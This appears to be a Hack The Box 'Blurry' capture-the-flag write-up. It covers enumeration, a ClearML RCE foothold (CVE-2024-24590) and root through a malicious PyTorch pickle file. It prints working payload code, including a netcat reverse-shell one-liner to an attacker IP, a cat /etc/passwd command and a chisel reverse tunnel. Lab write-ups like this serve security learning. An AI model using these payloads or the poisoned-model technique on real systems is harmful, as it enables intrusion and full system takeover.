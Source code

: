 +++
title = 'Blurry'
date = 2024-11-09
draft = false
tags = ["Linux"]
category = ["htb"]
summary = "HTB - Linux - Medium"
+++

# Enum

## Port Scanning
```bash
┌──(fish㉿kali)-[~/htb/blurry]
└─$ nmap -p22,80 -A -oN service-scan.nmap $IP
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


## 80/nginx 1.18
```bash
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
```

"Did not follow redirect to http://app.blurry.htb/" - Going to need to add the `app.blurry.htb` and `blurry.htb` to our `/etc/hosts` file.

![](/Screenshots/Blurry_image_1.png)
`Allegro AI’s` 

Looking at the web application, find a potential user`jippity@blurry`

![](/Screenshots/Blurry_image_2.png)


Found a function to create new credentials which gives us two other subdomains.

![](/Screenshots/Blurry_image_3.png)

```bash
api { 
    web_server: http://app.blurry.htb
    api_server: http://api.blurry.htb
    files_server: http://files.blurry.htb
    credentials {
        "access_key" = "8LFREGYE0KOLQYJNWGY3"
        "secret_key"  = "rFDwCFblgrh4l4tuA1eYrwu8A0bxoD4YHepLDIm6kPce8ISnaV"
    }
}
```

![](/Screenshots/Blurry_image_4.png)
![](/Screenshots/Blurry_image_5.png)

![](/Screenshots/Blurry_image_6.png)




---
# Foothold

With the creds we found in the application we can set up clear-ml python sdk on our local box. 

We can then use an exploit hosted on github to get a reverse shell >> https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit . This is a client-side attack so it'll need some kind of interaction from a user.

Steps:
1. Clone the repo locally
	1. `git clone https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit.git`
2. Move into the exploit dir and run it
	1. `python3 exploit.py`
3. Type 1 and hit enter to initialize. We'll need to paste creds in from the web app. You can easily get a pastable configuration by creating a new experiment.
4. If we're successful, we can go back to the main menu and input the remaining config items and set up our reverse shell.


![](/Screenshots/Blurry_image_7.png)

![](/Screenshots/Blurry_image_8.png)
![](/Screenshots/Blurry_image_9.png)

And we have a shell

## Exploits
https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit

--- 
# PrivEsc

Our foothold exploit needed user interaction in order to execute, looking in the user's home directory we find the script responsible for that interaction - `review_tasks.py`.

Linpeas finds a few different ports listening on localhost
![](/Screenshots/Blurry_image_10.png)
```bash
3000
8008
8080
```


Our user also has the ability to run a sudo command without a password

![](/Screenshots/Blurry_image_11.png)

```bash
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```


Going to grab the user `jippity`'s `id_rsa` key to be able to easily SSH back to the box and have a more stable shell.

Since we know ports are listening on the localhost of our victim box, lets set up a socks proxy with chisel so we can view them in our browser
```bash
┌──(fish㉿kali)-[~/htb/blurry/www]
└─$ ./chisel_arm server --reverse --port 1081
...
jippity@blurry:/dev/shm$ ./chisel client 10.10.14.7:1081 R:socks
```

We can then switch over foxyproxy to use our tunnel proxy and browse the the sites.
![](/Screenshots/Blurry_image_12.png)

### 3000
![](/Screenshots/Blurry_image_13.png)

We can create a new account and login. looking at the chats, they mention a devops platform.
![](/Screenshots/Blurry_image_14.png)
![](/Screenshots/Blurry_image_15.png)

Moving on as I wasn't able to find anything relevant with rocketchat.

Considering our sudo privs allow us to execute a command, lets take a deeper look into what it actually does.

![](/Screenshots/Blurry_image_16.png)
The command appears to run a ml model stored in `/models/*.pth`.
![](/Screenshots/Blurry_image_17.png)
We do have a copy of the python script and we have the ability to read it.

![](/Screenshots/Blurry_image_18.png)
The script is using pytorch to run a ML model and there's an interesting vulnerability with pytorch and pickle files which we can use to execute arbitrary code. Reference https://github.com/pytorch/pytorch/issues/31875

![](/Screenshots/Blurry_image_19.png)

Looking further into what `pickle` in python actually means
![](/Screenshots/Blurry_image_20.png)
So it's converting a python object to or from binary or binary like object (serialization). There's a nice big red text box stating it's insecure as it can be used to execute arbitrary code during "unpickling" (deserialization).
Looking at the github issue, it seems we can re-write the `reduce` python class with system commands.

```python
ON_REDUCE = """
global MAGIC_NUMBER
MAGIC_NUMBER = None
import os;os.system('cat /etc/passwd')
"""
class Payload:
    def __reduce__(self):
        return (exec, (ON_REDUCE,))
```

Crafted the below script to verify it works. We can run our sudo command against any `.pth` file in `/models`. The script below will create a new `.pth` file named `evil.pth`, using torch.save we can save the Payload class as the evil.pth file. 

```python
import torch
import os

class Payload:
def __reduce__(self):
return (os.system, ("id",))

exploit = Payload()
torch.save(exploit, 'evil.pth')
```

And it does, we can see the output of the `id` command.
![](/Screenshots/Blurry_image_21.png)

Modifying the exploit with a reverse shell as the system command gets us a callback as the root user.
```python
import torch
import os

class Payload:
def __reduce__(self):
return (os.system, ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.7 9003 >/tmp/f",))

exploit = Payload()
torch.save(exploit, 'evil.pth')
```

![](/Screenshots/Blurry_image_22.png)

And we're root. We can grab the root.txt file and complete the box.



## Exploits
https://github.com/pytorch/pytorch/issues/31875

---

